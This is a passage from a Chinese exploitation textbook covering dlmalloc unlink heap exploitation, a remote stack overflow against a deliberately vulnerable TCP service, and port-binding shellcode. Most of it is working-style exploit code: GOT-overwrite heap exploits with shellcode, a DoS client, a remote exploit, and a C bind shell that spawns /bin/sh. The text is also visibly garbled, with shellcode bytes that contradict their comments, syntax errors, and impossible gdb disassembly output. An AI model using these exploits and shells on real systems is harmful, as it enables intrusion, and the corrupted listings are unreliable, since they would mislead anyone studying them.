Linux 使用了 Doug Lea 开发的堆分配算法，非正式称为 `dlmalloc`。所有动态分配和释放内存的标准函数——`malloc()`、`calloc()`、`realloc()` 和 `free()`——都基于 `dlmalloc` 算法。该算法的带注释源码可以在 Doug Lea 的主页上（http://ge.osw.edu/pub/malloc.c）找到。由于算法在不断改进，因此本节提供的信息可能不适用于你的较新版本。

你可能会好奇管理堆内存的算法是如何工作的。事实上，在栈和 BSS 区域分配缓冲区不需要任何算法。但栈和 BSS 缓冲区通常只使用一次，在程序执行期间不会改变。堆专门用于在程序执行期间分配和更改缓冲区；其中的内存是动态分配和释放的。通过在堆中不断分配和释放内存，堆内存空间可能会变得严重碎片，导致没有单一的空闲内存区域供分配。为了避免这种不理想的情况，分配和释放内存算法必须跟踪已释放的内存块并在需要时重用它们；此外，它们必须非常迅速。`dlmalloc` 算法满足了这些要求。

使用 `dlmalloc` 算法的堆内存通用结构如图 13.6 所示。总而言，图 13.6 显示的堆中分配了三个缓冲区。每个缓冲区都有一个特殊的强制性头部。Doug Lea 将缓冲区头部单元称为块（chunk）。因此，从现在起，缓冲区是指分配的堆内存及其头部，而块是指带有其头部的分配内存区域。

所有新块都从堆所谓的“荒野区域”（wilderness areas）中分配，即高地址处未使用的堆区域。荒野是堆的初始状态。最后一次分配的内存块允许与荒野区域相邻。

分配的块有两种类型：空闲空间和数据。用户块是由 `free()` 函数释放的块，或者当 `realloc()` 函数减少块的初始大小时创建的块。数据是指程序仍在使用的块。块的类型决定了其服务头部的格式。

| 高地址 |
| :--- |
| Wilderness ↑ |
| 堆缓冲区 |
| Header (头部) |
| 堆缓冲区 |
| Header (头部) |
| 堆缓冲区 |
| 低地址 |

图 13.6 堆内存分配示例

块头部定义如下：

```c
struct chunk_header {
    size_t prev_size;
    size_t size;
    struct chunk_header *fd;
    struct chunk_header *bk;
};
```

取决于块是空闲的还是用户数据，`prev_size` 字段持有前一个块的大小。如果此标志位被设置为 1，则表示前一个块已分配。最低位被 `dlmalloc` 用作标记：

```c
#define PREV_INUSE 0x1
#define IS_MAPPED 0x2
```

`IS_MAPPED` 位表示当前块是通过 `mmap()` 分配的。对于编写利用程序，此位没有意义；如果位设置为 0，则表示前一个块是空闲空间，`prev_size` 字段持有该块的大小。

以下字段是指针，仅存在于空闲空间的头部中。`bk` 字段指向前一个空闲块，`fd` 字段指向下一个空闲块。`dlmalloc` 算法将所有空闲空间注册在链表中，这需要 `bk` 和 `fd` 指针。此外，`dlmalloc` 支持多个链表，每个链表包含特定大小的空闲空间。这些链表中的每一个都结束于一个“桶”（bin）。空闲块被放入的桶取决于其大小：

- 200 字节块将被注册在存储 200 字节的桶中。
- 1504 字节块将被注册在存储 1472 字节到 1536 字节之间空间的桶中。
- 16392 字节块将被注册在存储 16384 字节到 20480 字节之间空间的桶中。

限制条件根据某些算法计算并选择桶，这些算法可以在 `dlmalloc` 的源码中查看。对于编写利用程序的任务，这些算法没有意义。

调用 `free()` 函数会导致以下结果之一：

- 调用 `free(0)` 不产生变化。
- 释放块与相邻的空闲块合并。
- 释放块与相邻的空闲空间合并。

在后一种情况下，`free()` 函数必须先从链表中移除相邻的空闲块，它通过调用 `unlink` 宏来实现：

```c
void unlink(P, BK, FD) {
    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;
}
```

该宏将当前块 P 的 `bk` 指针替换为前一个块，并将前一个块的 `fd` 指针替换为 P。

在释放块与空闲空间块合并后，新块将被注册到一个桶中。

## 13.4.4 构造利用程序

`unlink()` 宏对于利用开发人员来说至关重要。能够覆盖未使用内存块（chunk）头部中的 `bk` 和 `fd` 指针并调用 `unlink()`，允许你将任意数据写入任意内存位置。`fd` 指针距离头部起始位置偏移 12 字节；`bk` 指针则偏移 8 字节：

```c
// 4 bytes for size, 4 bytes for prev_size, and 4 bytes for fd
*(P->fd + 12) = P->bk;
// 4 bytes for size and 4 bytes for prev_size
*(P->bk - 8) = P;
```

通常，`bk` 指针会被重写为 GOT 中某个函数的地址。在漏洞程序（列表 13.32）中，`unlink()` 宏由 `free(a)` 函数调用，随后是 `free(b)` 函数；你需要选择使用 `free` 来覆盖 `free(b)` 函数的地址。因此，`bk` 被覆盖为 GOT 中 `free()` 函数的地址。在这种情况下，`unlink()` 宏如下：

```c
FD = P->fd; // free
BK = P->bk; // ret
FD->bk = BK; // *(free + 12) = ret;
BK->fd = FD; // *(ret + 8) = free;
```

在这里，`free` 是 GOT 中 `free()` 函数的地址，`ret` 是 shellcode 的地址。结果是，shellcode 的地址将被写入 `free + 12` 处。它必须显式写入 `free()` 函数的地址。因此，`bk` 必须替换为 `free()` 地址减去 12 的地址。在这种情况下，`unlink()` 如下：

```c
FD = P->fd; // free - 12
BK = P->bk; // ret
FD->bk = BK; // *(free - 12 + 12) = ret;
BK->fd = FD; // *(ret + 8) = free - 12;
```

现在，`free()` 的地址被 shellcode 的地址覆盖，漏洞程序将调用 shellcode 而不是 `free(b)`。你可以看到，`unlink()` 中只有倒数第二行执行了必要的写入：

```c
FD->bk = BK; // *(free - 12 + 12) = ret;
```

然而，`unlink()` 的最后一行不能被忽略：

```c
BK->fd = FD; // *(ret + 8) = free - 12;
```

它将被执行函数的地址写入到 shellcode 地址后偏移 8 字节的位置。这意味着 shellcode 的第 9、10、11 和 12 字节将受到损坏。因此，在 shellcode 的开头必须添加一条执行 12 字节前向跳转的指令以确保其成功执行。12 字节的跳转可以通过 `\xeb\x0c` 机器指令实现；但是该指令本身占用 2 字节，跳转长度必须仅为 10 字节。此跳转可以通过 `\xeb\x0a` 机器指令执行。

如前所述，为了调用 `unlink()` 宏，被释放的块必须与一个未使用的空闲块相邻。初始状态，漏洞程序中的两个块都是数据块。由于 `free(b)` 函数必须调用 shellcode，别无选择，只能让 `free(a)` 函数调用 `unlink()` 宏。为了实现这一目标，必须在一个块之后立即创建一个虚拟的未使用块。

这可以通过图 13.7 所示。当调用 `free(a)` 时，它会检查下一个块是否未使用。首先，将检查虚拟块头部的 `size` 字段以找到下一个块的 `size` 字段，该字段也由开发者创建。在该字段中，`PREV_INUSE` 位必须设置为 0；因此，函数将判断第二个块是未使用的并调用 `unlink(F1)` 宏。结果将产生必要的内存覆盖。

**移除第二个块可以改进此解决方案。可以使虚拟块的 `size` 字段指向该虚拟块的 `prev_size` 字段，就像指向下一个块一样。只需将 `size` 字段设置为 -4（在利用程序中，通常使用十六进制值 `0xfffffffc`）。这是可能的，因为 `PREV_INUSE` 位的检查方式如下：

```c
#define inuse_bit_at_offset(p, s) \
    (((mchunkptr)(((char*)(p)) + (s)))->size & PREV_INUSE)
```

在这种情况下，溢出的缓冲区将如图 13.8 所示。列表 13.33 显示了将 shellcode 放入漏洞缓冲区的利用程序源码。列表 13.34 显示了源码的改进版本，它将 shellcode 放入环境变量中。

GOT 中 `free()` 函数的地址确定方式如下：

```bash
objdump -R ./heap_vuln | grep free
# 080496ec R_386_JUMP_SLOT free
```

漏洞缓冲区中 shellcode 的地址使用 `ltrace` 确定：

```bash
ltrace ./heap_vuln | grep 200
# malloc (200) = 0x080497b8
```

得到的值是块的起始地址；因此，必须增加 8 字节以跳过 `prev_size` 和 `size` 字段。结果的编译、运行和检查如下：

```bash
gcc heap_vuln.c -o heap_vuln
gcc expl_heap1.c -o expl_heap1
chmod +x ./heap_vuln
ls -la ./heap_vuln
```

`unlink()` 的操作方式如下：

```bash
./heap_vuln
```

id 结果显示：

```bash
uid=0(root) gid=0(root) groups=0(root)
```

### 列表 13.33 将 shellcode 放入漏洞缓冲区

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

#define FREE_GOT 0x080496ec
#define RET 0x080497c0
#define GARBAGE 0x12345678

char shellcode[] =
    "\xeb\x04\x00\x00\x00\x00\x00\x00"
    "\x31\xc3\x31\xdb\x80\x17\xcd\x80"
    "\x33\x30\x31\x31\x8b\xe2\x8c\xd0\x80"
    "\xeb\x4f\x1f\x51\x89\x76\x08\x31\x30"
    "\x88\x46\x07\x89\x89\x46\x0c\x83\x0b"
    "\x9f\xf3\x83\x81\xe4\x08\x8d\x56\x0c"
    "\xcd\x80\x31\xdb\x89\x88\x40\xcd"
    "\xb0\x88\x31\xdb\xff\xff\xff"
    "/bin/sh";

int main() {
    char buf[200];
    char *p;

    malloc(200);
    p = buf;
    *(void **)p = (void *)GARBAGE;
    p += 4;
    *(void **)p = (void *)RET;
    p += 4;
    memcpy(p, shellcode, strlen(shellcode));
    memset(p, 'A', 200 - strlen(shellcode));
    free(buf);
    return 0;
}
```

### 列表 13.34 将 shellcode 放入环境变量

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

#define FREE_GOT 0x080496ec
#define RET 0x080497c0
#define GARBAGE 0x12345678

char shellcode[] =
    "\xeb\x0c\x00\x00\x00\x00\x00\x00"
    "\x31\xc3\x31\xdb\x80\x17\xcd\x80"
    "\x33\x30\x31\x31\x8b\xe2\x8c\xd0\x80"
    "\xeb\x4f\x1f\x51\x89\x76\x08\x31\x30"
    "\x88\x46\x07\x89\x89\x46\x0c\x83\x0b"
    "\x9f\xf3\x83\x81\xe4\x08\x8d\x56\x0c"
    "\xcd\x80\x31\xdb\x89\x88\x40\xcd"
    "\xb0\x88\x31\xdb\xff\xff\xff"
    "/bin/sh";

int main() {
    char buf[200];
    char *p;

    malloc(200);
    p = buf;
    *(void **)p = (void *)(FREE_GOT - 12);
    p += 4;
    *(void **)p = (void *)RET;
    p += 4;
    *(size_t *)p = (size_t)GARBAGE & ~1;
    p += 4;
    *(size_t *)p = (size_t)(-4);
    p += 4;
    *(void **)p = (void *)FREE_GOT;
    p += 4;
    *(void **)p = (void *)RET;
    p += 4;
    *p = '\0';
    execl("./heap_vuln", "heap_vuln", buf, NULL);
    return 0;
}
```

# 第三部分：利用


# 第 14 章：远程利用

## 漏洞服务代码

```c
#include <sys/types.h>

#define BUFFER_SIZE 1000
#define NAME_SIZE 2000

hello_client(int sock) {
    char buf[BUFFER_SIZE];
    char name[NAME_SIZE];
    int nbytes;

    strcpy(buf, "Enter your name: ");
    send(sock, buf, strlen(buf), 0);

    if (nbytes = recv(sock, name, sizeof(name), 0) > 0) {
        name[nbytes-1] = '\0';
        printf(buf, "Hello %s\r\n", name);
        send(sock, buf, strlen(buf), 0);
    }
}

int main(int argc, char *argv[]) {
    int sd;
    int clis;
    struct sockaddr_in servaddr;

    if (argc != 2) {
        printf("Usage: %s <port>\n", argv[0]);
        exit(-1);
    }

    if (( sd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
        perror("socket() failed");
        exit(-1);
    }

    bzero(&servaddr, sizeof(servaddr));
    servaddr.sin_family = AF_INET;
    servaddr.sin_addr.s_addr = htonl(INADDR_ANY);
    servaddr.sin_port = htons(atoi(argv[1]));

    if (bind(sd, (struct sockaddr*)&servaddr, sizeof(servaddr)) != 0) {
        perror("bind() failed");
        exit(-1);
    }

    if (listen(sd, 30) != 0) {
        perror("listen() failed");
        exit(-1);
    }

    for(;;)
        if (clisd = accept(sd, NULL, NULL)) < 0) {
            perror("accept failed");
            exit(-1);
        }
        hello_client(clisd);
        close(clisd);
    }

    return 0;
}
```

## 编译与运行

编译并运行服务：

```
# gcc vulnserver.c -o vulnserver
# ./vulnserver 7777
```

`7777` 是服务使用的端口。如果用 root 权限运行服务：

```
# telnet 127.0.0.1 7777
Trying 127.0.0.1...
Connected to localhost (127.0.0.1).
Escape character is '^'.
Enter your name: Skylaroff
Hello Skylaroff
Connection closed by foreign host.
#
```

该服务仅请求一个名称并发送问候作为回复。

## 14.2. DoS 利用

在服务的源代码中，定义了一个 1,000 字节的缓冲区 `buf`。该缓冲区用于复制输入的名称；然而，名称的长度最多可达 2000 字节。因此，如果客户端输入的名称超过 1,000 个字符，它将通过 `sprintf()` 函数复制到 `buf` 中，导致溢出。

由于手动输入 2,000 个字符非常繁琐，DoS 利用将向服务发送一个指定长度的字符串。此类利用的源代码如列表 14.2 所示。在命令行中，必须向 DoS 利用传递服务器的 IP 地址、漏洞服务的地址以及发送的字节数（即字符串的长度）。DoS 利用发送一个仅由字符（代码 `0x41`）组成的指定长度的字符串。

### 列表 14.2 DoS 利用 (dos.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <netdb.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <string.h>

int main(int argc, char *argv[]) {
    int sd;
    int i;
    int nbytes;
    char *buf;
    struct sockaddr_in servaddr;

    if (argc != 4) {
        printf("Usage : <ip> <port> <number of bytes>\n\n");
        exit(-1);
    }

    nbytes = atoi(argv[3]);
    buf = (char*)malloc(nbytes);

    servaddr.sin_family = AF_INET;
    servaddr.sin_addr.s_addr = inet_addr(argv[1]);
    servaddr.sin_port = htons(atoi(argv[2]));

    if ((sd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
        perror("socket failed");
        exit(-1);
    }

    if (connect(sd, (struct sockaddr*)&servaddr, sizeof(servaddr)) != 0) {
        perror("connect failed");
        exit(-1);
    }

    send(sd, buf, strlen(buf), 0);
    free(buf);
    close(sd);
}
```

假设向漏洞服务发送了 1,500 字节：

```
# gcc dos.c -o dos
# Usage : ./dos <ip> <port> <number of bytes>
# ./dos 127.0.0.1 7777 1500
```

它将异常终止并产生段错误（core dumped）。

## 14.3. 构建远程利用

由于漏洞服务的缓冲区在 `hello_client()` 函数中定义，栈上必须有一个该函数的返回地址。因此，覆盖此返回地址可以将执行控制传递给 shellcode。要确定 `hello_client()` 函数的返回地址，在 GDB 中加载服务：

```
# gdb ./vulnserver
(gdb) r 30000
Starting program: /home../vulnserver
service started on port 30000.
Run the Dos exploit:
# ./dos 127.0.0.1 30000 2000
Program received SIGSEGV, Segmentation fault. 0x41414141
```

栈返回地址被覆盖，将 `0x41414141` 写入 `EIP` 寄存器。程序引用了该地址并崩溃。崩溃后的寄存器状态如下：

```
(gdb) info registers
eip            0x41414141
ebp            0x41414141
esp            0xfffffff90
               ...
```

现在查看缓冲区的内容：

```
(gdb) x/4xb $esp
0xfffffff90: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff94: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff98: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff9c: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff00: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff04: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff08: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff0c: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff10: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff14: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff18: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff1c: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff20: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff24: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff28: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff2c: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff30: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff34: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff38: 0x41414141 0x41414141 0x44414141 0x44414141
0xfffffff3c: 0x41414141 0x41414141 0x44414141 0x44414141
```

### Shellcode 构造示例

```nasm
* socket (AF_INET, SOCK_STREAM, 0) */
"\x31\xc0"          /* xor %eax, %eax */
"\x89\x46\x10"      /* movl eax, 0x10(%esi) */
"\x40"              /* incl %eax */
"\x89\xc3\x03"      /* movl eax, %ebx */
"\x89\x46\x0c"      /* movl eax, 0x00(%esi) */
"\x44"              /* incl %eax */
"\x89\x46\x08"      /* movl eax, 0x08(%esi) */
"\x88\x4e\x08"      /* leal 0x08(%esi), %ecx */
"\xdb\x66"          /* movb $0x56, %eax */
"\xcd\x80"          /* int $0x80 */

* bind(struct sockaddr *addr, sizeof(sockaddr)) */
"\x43"
"\x60\x46\x10\x10"  /* movb %ebx, 0x10(%esi) */
"\x89\x35\x14"      /* movl %bx, 0x14(%esi) */
"\x8b\xd8"          /* movl %al, 0x08(%esi) */
"\x31\xc0"          /* xor %eax, %eax */
"\x89\xc2"          /* movl %eax, %edx */
"\x89\x46\x18"      /* movl %edx, 0x18(%esi) */
"\x66\xd7"          /* movb $0x07, %al */
"\x68\x89\x46\x16"  /* mov al %al, 0x16(%esi) */
"\x84\x4e\x14"      /* leal 0x14(%esi), %ecx */
"\x89\x45\x0c"      /* movl %ecx, 0x0c(%esi) */
"\x89\x4d\x08"      /* movl %ebx, 0x08(%esi) */
"\x8db\x66"         /* movb $0x56, %eax */
"\xcd\x80"          /* int $0x80 */

* accept(fd, NULL, 0) */
"\x89\x55\x0c\xc0"  /* movl %ebx, 0x0c(%esi) */
"\x43"              /* incl %ebx */
"\x43"              /* incl %ebx */
"\x6b\x66"          /* movb $0x66, %al */
"\xcd\x80"          /* int $0x80 */

* dup2(fd, 0) */
"\x89\x63\xc3"
"\xb0\xb3\x3f"      /* movb $0x3f, %al */
"\x31\x59"
"\xcd\x80"          /* xor %eax, %eax */

* dup2(fd, 1) */
"\x0b\xb3\x3f"      /* movb $0x3f, %al */
"\x41"              /* incl %ecx */
"\xcd\x80"          /* int $0x80 */

"\xb0\x3f"          /* movb $0x3f, %al */
"\x41"              /* incl %ecx */
"\xcd\x80"          /* int $0x80 */

* execl(1) */
"\x88\x56\x07"      /* movb $dl, 0x07(esi) */
"\x89\x76\x0c"      /* movl %esi, 0x0c(%esi) */
"\x87\xc9"          /* xchgl %esi, %ebx */
"\x8d\x4b\x0c"      /* lea 0x0c(%ebx), %ecx */
"\xxb0\x0b"         /* movb $0x0b, %al */
"\xcd\x80"          /* int $0x80 */

* line: */
"\x88\x89\xff\xff\xff"  /* call start */
"/bin/sh";0
```

### 远程利用主程序 (exploit.c)

```c
int main(int argc, char *argv[])
{
    char buf[1050];
    long ret;
    char *ptr;
    long *addr_ptr;
    int sd, i;
    struct hostaddr *hp;
    struct sockaddr_in remote;
```

```c
if (argc != 1) {
    fprintf(stderr, "Usage: %s <target> <port>\n", argv[0]);
    exit(-1);
}
```

```c
ret = strtol(argv[3], NULL, 16);
```

```c
memset(buf, 0, 1050);
memcpy(buf + 1001, shellcode, sizeof(shellcode));
buf[0] = 0;
for(i = 0; i < 1046; i += 4) {
    ((int *)buf[i]) = ret;
}
```

```c
if ((hp = gethostbyname(argv[1])) == NULL) {
    error("gethostname failed");
    exit(-1);
}
```

```c
if ((sd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
    error("socket failed");
    exit(-1);
}
```

```c
remote.sin_family = AF_INET;
remote.sin_addr = ((struct sockaddr *)hp)->h_addr;
remote.sin_port = htons(atoi(argv[2]));
if (connect(sd, (struct sockaddr *)remote, sizeof(remote)) == -1) {
    perror("connect() failed");
    close(sd);
    exit(-1);
}
send(sd, buf, sizeof(buf));
close(sd);
```

## 14.4. 远程 Shellcode

远程 shellcode 与本地利用中的 shellcode 不同。有很多类型的远程 shellcode；我们考虑主要的。

### 14.4.1. 绑定 Shellcode

这种 shellcode 本质上是一个后门，在第 1 章中考虑过。绑定 shellcode 仅在特定端口打开命令 shell。该 shellcode 的源代码见列表 14.4。

#### 列表 14.4 绑定 shellcode (bindport.c)

```c
#include <stdio.h>
```


#include <netinet/in.h>

#include <sys/types.h>

#include <sys/socket.h>

#include <unistd.h>

int sd, cli;

struct sockaddr_in servaddr;

int main() {

    servaddr.sin_family = AF_INET;

    servaddr.sin_addr.s_addr = INADDR_ANY;

    servaddr.sin_port = htons(30464);

    sd = socket(AF_INET, SOCK_STREAM, 0);

    bind(sd, (struct sockaddr *)&servaddr, sizeof(servaddr));

    listen(sd, 1);

    cli = accept(sd, NULL, 0);

    dup2(cli, 0);

    dup2(cli, 1);

    dup2(cli, 2);

    execl("/bin/sh", "sh", NULL);

}

编译并反汇编程序：

```bash
# gcc bindport.c -o bindport -static
# gdb -b bindport
```

首先，反汇编 `main()` 函数（列表 14.5）。

#### 列表 14.5. 反汇编后的 main 函数

```bash
(gdb) disassemble main
Dump assembler code for function main:
0x0048e10<main+0>:    push    %ebp
0x0048e11<main+1>:    mov     %esp, %ebp
0x0048e13<main+3>:    sub     $0x8, %esp
0x0048e15<main+21>:    movw   $0x2, 0x80f9a0
0x0048e1f<main+30>:    mov     $0x0, %ecx
0x0048e28<main+40>:    push    $0x7700
0x0048e20<main+43>:    call   0x004d350<htons>
0x0048e2c<main+48>:    add     $0x10, %esp
0x0048e28<main+56>:    mov     %eax, %eax
0x0048e21a<main+58>:    mov     %eax, %eax
0x0048e1c<main+60>:    mov     $0x4, 0x80f99a2
0x0048e222<main+66>:    push    $0x0, %esp
0x0048e227<main+71>:    push    $0x1
0x0048e229<main+73>:    push    $0x2
0x0048e22b<main+75>:    call   0x004d430<_socket>
0x0048e230<main+80>:    add     $0x10, %esp
0x0048e233<main+83>:    mov     %eax, %eax
0x0048e235<main+85>:    mov     $0x4, 0x80f99a4
0x0048e23a<main+90>:    sub     $0x8, %esp
0x0048e23d<main+93>:    push    $0x1
0x0048e244<main+100>:    push    $0x80f99b4
0x0048e24a<main+106>:    call   0x004d2f0<bind>
0x0048e24f<main+111>:    add     $0x10, %esp
0x0048e252<main+117>:    sub     $0x8, %esp
0x0048e257<main+119>:    push    $0x80f99b4
0x0048e25d<main+125>:    call   0x004d310<listen>
0x0048e262<main+130>:    add     $0x10, %esp
0x0048e265<main+133>:    mov     $0x4, %esp
0x0048e26a<main+140>:    push    $0x0
0x0048e26c<main+140>:    push    $0x80f99b4
0x0048e272<main+146>:    call   0x004d2d0<accept>
0x0048e277<main+151>:    add     $0x10, %esp
0x0048e27a<main+154>:    mov     %eax, %eax
0x0048e27c<main+156>:    mov     $0x4, 0x80f99b0
0x0048e281<main+161>:    sub     $0x8, %esp
0x0048e284<main+164>:    push    $0x0
0x0048e286<main+166>:    push    $0x80f99b4
0x0048e28c<main+172>:    call   0x004d190<dup2>
0x0048e291<main+177>:    add     $0x10, %esp
0x0048e294<main+180>:    sub     $0x8, %esp
0x0048e297<main+183>:    push    %esp
0x0048e299<main+185>:    push    $0x80f99b4
0x0048e2a0<main+190>:    call   0x004d190<dup2>
0x0048e2a4<main+196>:    add     $0x10, %esp
0x0048e2a7<main+199>:    sub     $0x8, %esp
0x0048e2aa<main+202>:    push    $0x2
0x0048e2ac<main+204>:    push    $0x80f99b0
0x0048e2af<main+210>:    call   0x004d190<dup2>
0x0048e2b7<main+215>:    add     $0x10, %esp
0x0048e2b8<main+218>:    sub     $0x4, %esp
0x0048e2b2<main+221>:    push    $0x0
0x0048e2c<main+226>:    pushl   0x0808e528
0x0048e2c4<main+228>:    call    0x8044cd0<excl>
0x0048e2c9<main+233>:    add     $0x10, %esp
0x0048e2d1<main+241>:    leave
0x0048e2d4<main+246>:    ret
End of assembler dump.
(gdb)
```

接下来，反汇编 `socket()`、`bind()`、`listen()`、`accept()` 和 `dup2()` 函数（列表 14.6 到 14.10）。

#### 列表 14.6. 反汇编后的 socket 函数

```bash
(gdb) disassemble socket
Dump of assembler code for function _socket:
0x804d330<socket>:    mov     %ebx, %edx
0x804d332<socket>:    mov     $0x66, %eax
0x804d337<socket+7>:    mov     $0x1, %ebx
0x804d33c<socket+12>:    lea     4(%esp, 1), %ecx
0x804d340<socket+16>:    mov     $0x0, %ecx
0x804d344<socket+20>:    sub     $0x8, %esp
0x804d348<socket+24>:    push    $0x1
0x804d34d<socket+28>:    push    $0x80f99b4
0x804d352<socket+32>:    call   0x004d2f0<bind>
0x804d357<socket+36>:    add     $0x10, %esp
0x804d35<<socket+40.
(gdb)
```

#### 列表 14.7. 反汇编后的 bind 函数

```bash
(gdb) disassemble bind
Dump of assembler code for function bind:
0x804d2f0<bind>:    mov     %ebx, %edx
0x804d2f2<bind>:    mov     $0x66, %eax
0x804d2f7<bind+7>:    mov     $0x1, %ebx
0x804d2fc<bind+12>:    lea     4(%esp, 1), %ecx
0x804d300<bind+16>:    mov     $0x0, %ecx
0x804d304<bind+20>:    sub     $0x8, %esp
0x804d308<bind+24>:    push    $0x1
0x804d30d<bind+28>:    push    $0x80f99b4
0x804d312<bind+32>:    call   0x004d430<_socket>
0x804d317<bind+36>:    add     $0x10, %esp
0x804d31b<bind+40.
(gdb)
```

#### 列表 14.8. 反汇编后的 listen 函数

```bash
(gdb) disassemble listen
Dump of assembler code for function listen:
0x804d310<listen>:    mov     %ebx, %edx
0x804d312<listen>:    mov     $0x66, %eax
0x804d317<listen+7>:    mov     $0x1, %ebx
0x804d31c<listen+12>:    lea     4(%esp, 1), %ecx
0x804d320<listen+16>:    mov     $0x0, %ecx
0x804d324<listen+20>:    sub     $0x8, %esp
0x804d328<listen+24>:    push    $0x1
0x804d32d<listen+28>:    push    $0x80f99b4
0x804d332<listen+32>:    call   0x004d310<accept>
0x804d337<listen+36>:    add     $0x10, %esp
0x804d33b<listen+40.
(gdb)
```

#### 列表 14.9. 反汇编后的 accept 函数

```bash
(gdb) disassemble accept
Dump of assembler code for function accept:
0x804d2d0<accept>:    mov     %ebx, %edx
0x804d2d2<accept>:    mov     $0x66, %eax
0x804d2d7<accept+7>:    mov     $0x1, %ebx
0x804d2dc<accept+12>:    lea     4(%esp, 1), %ecx
0x804d2e0<accept+16>:    mov     $0x0, %ecx
0x804d2e4<accept+20>:    sub     $0x8, %esp
0x804d2e8<accept+24>:    push    $0x1
0x804d2ed<accept+28>:    push    $0x80f99b4
0x804d2f2<accept+32>:    call   0x004d2d0<listen>
0x804d2f7<accept+36>:    add     $0x10, %esp
0x804d2fb<accept+40.
(gdb)
```

#### 列表 14.10. 反汇编后的 dup2() 函数

```bash
(gdb) disassemble dup2
Dump of assembler code for function dup2:
0x804d190<dup2>:    mov     %ebx, %edx
0x804d192<dup2+2>:    mov     $0x66, %eax
0x804d197<dup2+7>:    mov     $0x1, %ebx
0x804d19c<dup2+12>:    lea     4(%esp, 1), %ecx
0x804d1a0<dup2+16>:    mov     $0x0, %ecx
0x804d1a4<dup2+20>:    sub     $0x8, %esp
0x804d1a8<dup2+24>:    push    $0x1
0x804d1ad<dup2+28>:    push    $0x80f99b4
0x804d1b2<dup2+32>:    call   0x004d190<socket>
0x804d1b7<dup2+36>:    add     $0x10, %esp
0x804d1db<dup2+40.
(gdb)
```

## 第 14 章：远程利用 255

按照第 13.1.3 节的方法进行，并利用反汇编函数中的信息，用汇编准备一个初步的 shellcode（列表 14.11）。

## 列表 14.11. 初步的远程 shellcode

```c
int main()
{
    asm ("jmp line"

start:
    popl %esi

/* socket(AF_INET, SOCK_STREAM, 0) */
    xrl %eax, %eax
    mov %eax, 0x10(esi)
    incl %eax
    mov %eax, %ebx
    mov %eax, 0x0c(esi)
    incl %eax
    mov %eax, 0x08(esi)
    leal 0x08(esi), %ecx
    mov $0x06, %al
    int $0x80

/* bind(struct sockaddr *, &servaddr, sizeof(servaddr)) */
    incl %ebx
    movb $0x10, 0x10(esi)
    movb %ebx, 0x14(esi)
    movb %al, 0x08(esi)
    xor %eax, %eax
    mov %eax, %edx
    mov %eax, 0x18(esi)
    movb $0x77, %al
    mov %ax, 0x16(esi)
    leal 0x14(esi), %ecx
    mov %ecx, 0x0c(esi)
    leal 0x0d(esi), %ecx
    movb $0x66, %al
    int $0x80

/* listen(sd, 1) */
    mov %ebx, 0x0c(esi)
    incl %ebx
    incl %ebx
    movb $0x66, %al
    int $0x80

/* accept(sd, NULL, 0) */
    mov %edx, 0x0c(esi)
    mov %edx, 0x10(esi)
    movb $0x66, %al
    incl %ebx

/* dup2(cli, 0) */
    xchgb %al, %bl
    mov $0x3f, %al
    xor %ecx, %ecx
    int $0x80

/* dup2(cli, 1) */
    mov $0x3f, %al
    incl %ecx
    int $0x80

/* dup2(cli, 2) */
    mov $0x3f, %al
    incl %ecx
    int $0x80

/* execcl() */
    mov %dl, 0x07(%esi)
    mov %esi, 0x0c(%esi)
    xchgl %esi, %ebx
    leal 0x0(%ebx), %ecx
    mov $0x0b, %al
    int $0x80

line:
    call start
    .string "/bin/sh"
)
```


使用以下命令编译源代码：
`gcc tempshell.c -o tempshell`
现在，转储其十六进制代码：
`objdump -D ./tempshell`
列表 14.12 显示了我们感兴趣的 dump 部分。这是在远程利用中使用的 shellcode 的十六进制值（列表 14.3 已获取）。

## 列表 14.12. 远程 shellcode 的十六进制值

| 地址 | Hex | 指令 |
| :--- | :--- | :--- |
| 0808430 <main>: | | push %ebp |
| 0808430: | 55 | |
| 0808431: | 89 e5 | mov %esp, %ebp |
| 0808433: | eb 72 | jmp 00844a7<link> |
| 0808435 <start>: | | |
| 0808435: | 5e: | pop %esi |
| 0808436: | 31 c0 | xor %eax, %eax |
| 0808438: | 89 46 10 | mov %eax, 0x10(%esi) |
| 080843b: | 40 | inc %eax |
| 080843c: | 89 c3 | mov %eax, %ebx |
| 804843e: | 89 46 0c | mov %eax, %cl(%esi) |
| 8048441: | 40 | inc %eax |
| 8048442: | 89 46 08 | mov %eax, 8(%esi) |
| 8048445: | 8d 4e 08 | lea 08(%esi),%ecx |
| 8048448: | b0 66 | mov $66, %al |
| 804844d: | cd 80 | int $80 |
| 804844f: | 43 | inc %ebx |
| 8048453: | c6 46 10 | mov $10,10(%esi) |
| 8048451: | 66 89 5e 14 | mov %bx,14(%esi) |
| 8048455: | 88 46 08 | mov %al, 8(%esi) |
| 8048459: | 31 c0 | xor %eax, %eax |
| 8048461: | 89 42 18 | mov %eax, 18(%ebx) |
| 804845f: | b0 77 | mov $77, %al |
| 8048463: | 66 89 4c 16 | mov %ax,16(%esi) |
| 8048465: | 8d 4e 14 | lea 14(%esi),%ecx |
| 8048468: | 89 4e 0c | mov %ecx, 0(%esi) |
